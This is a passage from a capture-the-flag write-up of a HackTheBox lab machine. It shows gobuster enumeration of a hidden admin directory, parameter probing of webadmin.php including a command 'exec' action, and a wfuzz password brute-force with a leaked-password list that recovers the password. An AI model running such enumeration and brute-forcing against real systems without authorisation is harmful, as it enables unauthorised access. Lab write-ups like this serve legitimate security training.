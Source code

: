 So based on the hidden message, there's a secret directory `/2bb6916122f1da34dcd916421e531578` that should allow us to get access. When I tried to access that directory, I got a 302 redirect instead of a 404 so I knew this was a valid directory.

Next I used gobuster to look for any ASP or PHP page in that directory:

```
# gobuster -q -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,asp,aspx -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578
/. (Status: 200)
/webadmin.php (Status: 302)
```

If I just browse to `/2bb6916122f1da34dcd916421e531578/webadmin.php` I get a 302 back to the main page. I checked out the different parameters found in the js file and noted the following:

1. The `list` action requires the `site` parameter set.

2. If we put an invalid `site` parameter we get a `Wrong target!` error mesasge

3. If we put an invalid `password` parameter we get a `Wrong secret key!` error message

4. The `init` action expects a `session` parameter but return a `Wrong identifier!` when we try a random value

5. The `exec` action returns a `Missing command` error message. I guessed that it's expecting a `command` or `cmd` parameters. Adding `cmd` returns a `Exited x` message when we issue a command, where x = the length of the command sent. I couldn't figure out if any command was being executed or not. I tried some sleep commands to see if anything was being executed but I always got the message back without any delay. I figured this was probably a troll from the Donkeys team so I moved on.

The next thing I did was fuzz the `password` parameter:

```
# wfuzz -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt "http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=FUZZ"

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=302      0 L	       3 W	     17 Ch	  "123456"
000002:  C=302      0 L	       3 W	     17 Ch	  "12345"
000003:  C=302      0 L	       3 W	     17 Ch	  "123456789"
000004:  C=302      0 L	       3 W	     17 Ch	  "password"
000005:  C=302      0 L	       3 W	     17 Ch	  "iloveyou"
000006:  C=302      0 L	       3 W	     17 Ch	  "princess"
000007:  C=302      0 L	       3 W	     17 Ch	  "1234567"
000008:  C=302      7 L	      15 W	    197 Ch	  "12345678"
000009:  C=302      0 L	       3 W	     17 Ch	  "abc123"
000010:  C=302      0 L	       3 W	     17 Ch	  "nicole"
```

The password `12345678` quickly popped out as shown above.

I then tried the `GET /2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=12345678` query on the admin page:
